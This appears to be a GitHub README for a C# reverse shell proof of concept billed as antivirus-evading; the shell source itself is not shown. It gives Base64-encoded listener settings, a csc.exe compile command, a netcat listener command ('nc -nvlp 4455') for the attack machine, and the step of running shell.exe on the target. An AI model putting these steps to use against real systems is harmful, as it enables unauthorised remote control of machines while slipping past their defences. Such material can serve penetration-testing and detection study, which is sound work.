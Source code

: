 # C# Reverse Shell AV Evasion POC

## Update the LHOST and LPORT in the code
- **Base64 encoded listener IP**: `MTkyLjE2OC41LjU=` → `192.168.5.5`
- **Base64 encoded listener port**: `NDQ1NQ==` → `4455`

## Compile

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe shell.cs`


## Start the Listener on the attack machiine

`nc -nvlp 4455`


## Trigger the binary on the target

`shell.exe`


